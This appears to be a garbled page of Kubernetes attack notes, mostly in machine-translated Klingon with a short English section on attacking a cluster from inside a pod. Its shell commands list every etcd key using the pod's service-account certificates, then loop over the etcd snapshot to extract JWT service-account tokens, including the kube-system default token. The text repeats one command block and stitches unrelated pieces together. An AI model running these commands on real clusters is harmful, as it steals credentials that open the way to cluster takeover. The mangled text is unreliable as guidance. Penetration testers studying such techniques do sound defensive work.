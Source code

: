 **etcd database-vaH cha'logh:**

```bash
kubectl exec -it <pod_name> -n <namespace> -- sh
ETCDCTL_API=3 etcdctl --endpoints=https://<etcd_endpoint>:2379 --cacert=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --cert=/var/run/secrets/kubernetes.io/serviceaccount/tls.crt --key=/var/run/secrets/kubernetes.io/serviceaccount/tls.key get / --prefix --keys-only
```

**etcd database-vaH cha'logh:**

```bash
kubectl exec -it <pod_name> -n <namespace> -- sh
ETCDCTL_API=3 etcdctl --endpoints=https://<etcd_endpoint>:2379 --cacert=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --cert=/var/run/secrets/kubernetes.io/serviceaccount/tls.crt --key=/var/run/secrets/kubernetes.io/serviceaccount/tls.key get / --prefix --keys-only
```
```bash
strings /var/lib/etcd/member/snap/db | less
```
**QapHa' tokens vItlhutlh database 'ej service account name chaw'be'**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
```
**tlhIngan Hol:**
**Qaghmey, 'ach chel greps vItlhutlhlaHbe'lu'chugh, kube-system namespaceDaq default token vItlhutlhlaHbe'lu'chugh**

**English:**
**Same command, but some greps to only return the default token in the kube-system namespace**
```bash
db=`strings /var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done | grep kube-system | grep default
```
# Attacking Kubernetes from Inside a Pod

## Introduction

In this section, we will explore various techniques to attack a Kubernetes cluster from inside a pod. By compromising a pod, an attacker can gain unauthorized access to the cluster and potentially escalate privileges.

## 1. Exploiting Misconfigurations

### 1.1. Insecure Pod Permissions

Kubernetes allows users to define pod security policies (PSPs) to restrict the permissions of pods. However, misconfigurations in PSPs can lead to insecure pod permissions, allowing an attacker to perform unauthorized actions.

To exploit this, an attacker can create a malicious pod with elevated privileges by bypassing the PSPs. This can be achieved by modifying the pod's security context or using a privileged container.
